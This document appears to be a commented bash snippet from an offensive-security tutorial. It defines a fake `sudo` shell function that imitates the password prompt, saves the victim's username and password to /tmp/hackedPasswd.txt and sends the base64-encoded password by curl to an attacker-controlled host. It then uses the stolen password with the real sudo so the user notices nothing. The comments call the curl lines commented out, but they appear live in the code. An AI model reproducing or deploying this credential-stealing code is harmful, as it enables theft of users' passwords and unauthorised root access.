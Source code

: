 function sudo () {
  # A "realsudo" variable is created. It calls the `which` command to locate
  # the path to the real sudo binary. This is used later in the function to
  # execute the target's desired command.
  realsudo="$(which sudo)"

  # The `read` command will prompt (`-p`) the target with a convincing password
  # request. The `-s` argument hides the input password, just as the real
  # sudo command would. The target password is then set in the "inputPasswd"
  # variable.
  read -s -p "[sudo] password for $USER: " inputPasswd

  # There are two `printf` commands here, separated by a semicolon.
  # The first simply prints a new line in the terminal, as the real sudo
  # does. The second writes the target's username and password to a
  # file called "hackedPasswd.txt" in the /tmp directory.
  printf "\n"; printf '%s\n' "$USER : $inputPasswd" >/tmp/hackedPasswd.txt

  # As an alternative to writing the password to the /tmp directory,
  # it can be exfiltrated to the attacker's server. Uncomment the below
  # "encoded" and "curl" lines to enable this function. The password
  # is encoded with `base64` to make it easier to transmit in the URL.
   encoded=$(printf '%s' "$inputPasswd" | base64) >/dev/null 2>&1
   curl -s "http://PYTHON.SERVER.attacker.com/$USER:$encoded" >/dev/null 2>&1

  # The `-S` option allows users to input their sudo password using the command
  # line. This is used to run an arbitrary `exit` command (`-c`) as the root
  # user (`-u`) to unlock the sudo timeout function. This command and its
  # output are hidden (/dev/null) from the target. It's only here to allow
  # sudo usage for future commands.
  $realsudo -S <<< "$inputPasswd" -u root bash -c "exit" >/dev/null 2>&1

  # With the sudo timeout engaged, privileged commands can be run without
  # prompting the user for a password. This line will execute the target's
  # desired command.
  $realsudo "${@:1}"
}

